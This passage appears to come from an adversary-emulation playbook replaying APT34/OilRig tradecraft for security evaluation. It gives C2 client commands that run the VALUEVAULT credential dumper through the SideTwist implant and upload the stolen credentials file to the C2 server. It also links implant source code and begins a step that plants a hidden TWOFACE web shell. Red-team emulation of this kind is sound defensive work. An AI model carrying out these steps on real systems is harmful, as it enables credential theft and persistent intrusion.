 Issue the command to execute VALUEVAULT after it has been downloaded:

```bash
./evalsC2client.py --set-task goTb '101 C:\Users\gosta\AppData\Roaming\b.exe'
```

Issue the command to upload output of VALUEVAULT to C2 after it has executed:

```bash
./evalsC2client.py --set-task goTb '103 C:\Users\gosta\AppData\Roaming\fsociety.dat'
```

Confirm that the credentials were obtained on C2 server.

```
ls ./files
cat ./files/fsociety.dat
```

<br>

### :moyai: Source Code
*  SideTwist file download: [SideTwist.cpp#L129-L154](../Resources/SideTwist/SideTwist/SideTwist.cpp#L129-L154) and [comms.cpp#L78-L9](..//Resources/SideTwist/SideTwist/comms.cpp#L78-L97)
*  SideTwist file upload: [SideTwist.cpp#L166-L178](../Resources/SideTwist/SideTwist/SideTwist.cpp#L166-L178/),  
  and [SideTwist.cpp#L81](../Resources/SideTwist/SideTwist/SideTwist.cpp#L81) -> [comms.cpp#L113-L12](..//Resources/SideTwist/SideTwist/comms.cpp#L113-L124) -> [comms.cpp#L172-L2](.././Resources/SideTwist/SideTwist/comms.cpp#L172-L294)

<br>

*  VALUEVAULT: [VALUEVAULT](../Resources/VALUEVAULT/)
*  VALUEVAULT opens Windows Vault: [vault.go#L91-L97](../Resources/VALUEVAULT/vendor/vault/vault.go#L91-L97)

<br>

### :microscope: Cited Intelligence 
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VALUEVAULT: https://www.mandiant.com/resources/hard-pass-declining-apt34-invite-to-join-their-professional-network
*  Open-source Windows Vault Password Dumper: http://web.archive.org/web/20190316025511/http://oxid.it/downloads/vaultdump.txt

<br>

## Step 4 - Install Web Shell on EWS

### :microphone: Voice Track

Step 4 emulates OilRig installing web shell persistence on `WATERFALLS (10.1.0.6)`. 
This is accomplished by downloading the TWOFACE webshell (named `contact.aspx`) 
via `SystemFailureReporter.exe`; TWOFACE is then copied from `THEBLOCK` to 
`WATERFALLS` and hidden with `attrib + h`. 

